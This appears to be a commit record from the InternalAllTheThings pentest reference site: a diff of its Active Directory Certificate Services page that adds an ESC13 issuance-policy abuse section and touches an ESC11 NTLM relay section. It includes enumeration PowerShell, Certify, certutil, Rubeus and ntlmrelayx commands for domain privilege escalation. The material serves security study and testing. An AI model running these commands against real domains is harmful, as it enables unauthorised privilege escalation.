

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/active-directory/ad-adcs-certificate-services.md, in a window 1280 px wide and 1400 px high, scrolled down 7340 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
ESC13 + NetExec workspaces

````diff
--- a/docs/active-directory/ad-adcs-certificate-services.md
+++ b/docs/active-directory/ad-adcs-certificate-services.md
@@ -301,18 +301,72 @@ Jane@corp.local is allowed to enroll in the certificate template ESC9 that speci
 
 ## ESC11 - Relaying NTLM to ICPR
 
-> Encryption is not enforced for ICPR requests and Request Disposition is set to Issue
+> Encryption is not enforced for ICPR requests and Request Disposition is set to Issue.
 
 Requirements:
+
 * [sploutchy/Certipy](https://github.com/sploutchy/Certipy) - Certipy fork
 * [sploutchy/impacket](https://github.com/sploutchy/impacket) - Impacket fork
 
 Exploitation:
+
 1. Look for `Enforce Encryption for Requests: Disabled` in `certipy find -u user@dc1.lab.local -p 'REDACTED' -dc-ip 10.10.10.10 -stdout` output
 2. Setup a relay using Impacket ntlmrelay and trigger a connection to it.
     ```ps1
     ntlmrelayx.py -t rpc://10.10.10.10 -rpc-mode ICPR -icpr-ca-name lab-DC-CA -smb2support
     ```
+
+
+## ESC13 - Issuance Policy
+
+> If a principal (user or computer) has enrollment rights on a certificate template configured with an issuance policy that has an OID group link, then this principal can enroll a certificate that allows obtaining access to the environment as a member of the group specified in the OID group link.
+
+**Requirements**
+
+* The principal has enrollment rights on a certificate template
+* The certificate template has an issuance policy extension
+* The issuance policy has an OID group link to a group
+* The certificate template defines EKUs that enable client authentication
+
+```ps1
+PS C:\> $ESC13Template = Get-ADObject "CN=ESC13Template,$TemplateContainer" -Properties nTSecurityDescriptor $ESC13Template.nTSecurityDescriptor.Access | ? {$_.IdentityReference -eq "DUMPSTER\ESC13User"}
+AccessControlType     : Allow
+
+# check if there is an issuance policy in the msPKI-Certificate-Policy
+PS C:\> Get-ADObject "CN=ESC13Template,$TemplateContainer" -Properties msPKI-Certificate-Policy
+msPKI-Certificate-Policy : {1.3.6.1.4.1.311.21.8.4571196.1884641.3293620.10686285.12068043.134.3651508.12319448}
+
+# check for OID group link
+PS C:\> Get-ADObject "CN=12319448.2C2B96A74878E00434BEDD82A61861C5,$OIDContainer" -Properties DisplayName,msPKI-Cert-Template-OID,msDS-OIDToGroupLink
+msDS-OIDToGroupLink     : CN=ESC13Group,OU=Groups,OU=Tier0,DC=dumpster,DC=fire
+
+# verify if ESC13Group is a Universal group
+PS C:\> Get-ADGroup ESC13Group -Properties Members
+GroupScope        : Universal
+Members           : {}
+```
+
+**Exploitation**:
+
+* Request a certificate for the vulnerable template
+  ```ps1
+  PS C:\> .\Certify.exe request /ca:DC01\dumpster-DC01-CA /template:ESC13Template
+  ```
+
+* Merge into a PFX file
+  ```ps1
+  PS C:\> certutil -MergePFX .\esc13.pem .\esc13.pfx
+  ```
+
+* Verify the presence of the "Client Authentication" and the "Policy Identifier"
+  ```ps1
+  PS C:\> certutil -Dump -v .\esc13.pfx
+  ```
+
+* Ask a TGT for our user, but we are also member of the linked group and inherited their privileges
+  ```ps1
+  PS C:\> .\Rubeus.exe asktgt /user:ESC13User /certificate:C:\esc13.pfx /nowrap
+  ```
 
 
 ## Certifried CVE-2022-26923
@@ -429,3 +483,4 @@ Using the **UnPAC The Hash** method, you can retrieve the NT Hash for an User vi
 * [CA configuration - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ad-cs/ca-configuration)
 * [Access controls - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ad-cs/access-controls)
 * [Web endpoints - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ad-cs/web-endpoints)
+* [ADCS ESC13 Abuse Technique - Jonas Bülow Knudsen - 02/15/2024](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)
````
Also changed, not shown: docs/cheatsheets/miscellaneous-tricks.md (+13 -0 lines).
